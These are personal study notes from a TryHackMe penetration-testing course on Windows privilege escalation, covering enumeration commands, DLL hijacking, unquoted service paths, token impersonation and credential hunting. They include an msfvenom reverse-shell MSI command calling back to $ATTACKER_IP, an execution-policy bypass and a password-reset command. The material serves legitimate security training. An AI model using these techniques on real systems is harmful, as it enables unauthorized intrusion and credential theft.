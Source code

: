 # TryHackMe: Jr. Penetration Tester

**author**:: Nathan Acks  
**date**:: 2022-04-21

## Windows PrivEsc

### Introduction

Common Windows user levels:

* Local Admin
* Local User
* Guest User
* Domain User
* Domain Admin

Note that non-admin domain users may still be local admins.

Note that most Windows antivirus products will not allow enumeration scripts to be run.

Here's a useful checklist:

* [Windows - Privilege Escalation (PayloadsAllTheThings)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Information Gathering

* `whoami /priv` - current user + privileges
* `net user` - list all (local) users
* `net user $USERNAME` - get details for user `$USERNAME`
* `net localgroup` - list all (local) groups
* `net localgroup $GROUP` -- list user in group `$GROUP`
* `query session` - list other users who are currently logged in
* `systeminfo` - return system info
* `hostname` - return system hostname
* `wmic qfe get Caption,Description,HotFixID,InstalledOn` - list installed updates (only Windows 10 21H1 and older)
* `schtasks` - list scheduled tasks
* `driverquery` - list installed drivers
* `sc` - query (and manipulate) services (does not work in PowerShell!)

Note that the `findstr` command is the Windows equivalent of `grep` (and sometimes also `find`). Also remember that you can use pipe in Windows!

Note that Windows provides the `netstat` command, and it recognizes all of the switches we'd hope it does. Note, however, that `-o` displays the PID of the process using the connection on Windows.

Microsoft Defender uses the service name `windefend`.

* [Using "netstat"](../notes/netstat.md)

### Tools of the Trade

* [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* [Metasploit](../notes/metasploit.md)

Notes:

* WinPEAS is detected and quarantined by Microsoft Defender by default.
* PowerUp may require an unrestricted PowerShell session (`powershell -nop -exec bypass`), which can raise alerts.
* Windows Exploit Suggester analyzes the output of `systeminfo`, and can be run on the attacker's machine.
* The `multi/recon/local_exploit_suggester` module works through Meterpreter to analyze a Windows system for potential vulnerabilities.

### Vulnerable Software

* `wmic product` - list all installed software (but misses 32-bit applications installed on a 64-bit OS)
* `wimc service list brief` - another way of listing services

### DLL Hijacking

Basically, this is the Windows equivalent of exploiting `LD_PRELOAD` or `LD_LIBRARY_PATH`.

Windows DLL search order if `SafeDllSearchMode` is enabled:

* The application directory
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The current directory (!)
* The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

* The application directory
* The current directory (!)
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The system `PATH` (!)

It seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run). So, local testing!

A skeleton DLL:

```c
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /C whoami > C:\Temp\dll.txt");
		ExitProcess(0);
	}
	return TRUE;
}
```

Compile with mingw (this *can* be done on Linux!):

```powershell
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

Note that Windows *also* comes with `wget`!

```powershell
# Change user foo's password to "bar" (requires admin/SYSTEM
# authority):
#
net user foo bar
#
# Note that this does *NOT* bypass any password complexity
# requirements!
```

* [Exploiting LD_PRELOAD](../notes/exploiting-ld-preload.md)
* [Exploiting LD_LIBRARY_PATH](../notes/exploiting-ld-library-path.md)

### Unquoted Service Path

Formally, when Windows encounters an unquoted service path it tries *all* possible paths, from shortest to longest. Thus `C:\Program Files\service path\service.exe` will cause Windows to look for the following executables, in order:

* `C:\Program.exe`
* `C:\Program Files\service.exe`
* `C:\Program Files\service path\service.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

Print out all services:

```powershell
wmic service get name,displayname,pathname,startmode
```

You can inspect the service paths in this output to see if any have spaces *and* are unquoted.

When checking the permissions of a folder, note that the Windows File Explorer isn't good about displaying permissions for users who have *multiple* applied ACLs. Use `icacls` or `Get-Acl $PATH | Format-List`, and be sure to keep your eyes peeled for duplicate user entries (*all* of which will be applied!).

Find a file in Windows:

```powershell
dir $FILE_NAME /S
```

* [How to find a file or folder in MS-DOS or Windows command line](https://www.computerhope.com/issues/ch000309.htm)

### Token Impersonation

Prior to Windows 10 1809 / Server 2019, services could be forced to authenticate to a local port controlled by a low-privilege attacker, which would then allow the attacker to proxy and capture the NTLM handshake and thus (typically) a SYSTEM token. (This vulnerability *technically* still exists, its just that unprivileged accounts can no longer use this token; check to see if the output of `whoami /priv` contains the `SeImpersonatePrivilege` privilege to see if you've gotten lucky.)

Exploits in this family are typically named "X Potato" after the first exploit, "Hot Potato".

### Quick Wins

(1) Look for defunct (but still running) scheduled tasks with running as a more highly privileged account that point to a path you can control.

(2) If `AlwaysInstallElevated`  is set to 1 under both of the following keys, then MSI installers will run as SYSTEM.

```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Generate a malicious MSI file with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
		-f msi -o $INSTALLER.msi
```

Then install on the target to gain SYSTEM:

```powershell
msiexec /quiet /qn /i $INSTALLER.msi
```

(3) Check for saved passwords of othe users with `cmdkey /list`. If any exist, then they can be used in `runas` with the `/savecred` flag.

(4) Sometimes registry keys contain passwords! Apparently, you can query/search across registry keys using `reg query ...`.

(5) Windows uses a file called `unattend.xml` to store setup auto-configuration information. Check if these have been left lying around.
